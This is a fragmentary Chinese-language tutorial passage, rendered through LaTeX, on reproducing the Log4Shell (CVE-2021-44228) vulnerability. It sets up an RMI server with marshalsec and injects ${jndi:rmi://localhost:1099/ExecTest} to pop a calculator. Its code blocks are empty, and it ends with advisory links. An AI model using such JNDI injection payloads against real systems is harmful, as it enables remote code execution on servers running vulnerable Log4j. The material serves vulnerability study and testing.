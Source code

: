 \documentclass[12pt]{article}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
 
\end{Highlighting}
\end{Shaded}

\subsection{启动RMI服务}\label{ux542fux52a8rmiux670dux52a1}

使用https://github.com/mbechler/marshalsec可以快速启动RMI 或者LDAP，这个工具需要自己编译：

\begin{Shaded}
\begin{Highlighting}[]
\OperatorTok{=}
  
\end{Highlighting}
\end{Shaded}

\subsection{测试}\label{ux6d4bux8bd5}

在之前的请求内容中填上RMI的地址，\$\{jndi:rmi://localhost:1099/ExecTest\} 调用成功后即可弹出计算器。

\begin{itemize}
\tightlist
\item
  https://nosec.org/home/detail/4917.html
\item
  https://github.com/apache/logging-log4j2/commit/7fe72d6
\item
  https://securityboulevard.com/2021/12/log4shell-jndi-injection-via-attackable-log4j/
\item
  https://nvd.nist.gov/vuln/detail/CVE-2021-44228
\end{itemize}
\end{document}

